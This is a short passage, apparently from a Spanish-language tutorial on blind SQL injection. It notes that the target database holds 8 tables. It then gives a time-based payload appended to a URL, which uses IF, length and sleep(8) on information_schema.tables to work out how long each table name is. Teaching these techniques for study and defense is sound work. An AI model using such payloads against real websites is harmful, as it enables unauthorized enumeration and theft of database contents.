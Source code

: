 ![av. cant. de tbl](/assets/img/screens/av_cant_tbl2.png)

Hay un total de 8 tablas en la base de datos actual.

<br>
Averiguando la cantidad de caracteres de los nombres de las tablas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(length((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT x,1))=x,sleep(8),null);#</font></pre>
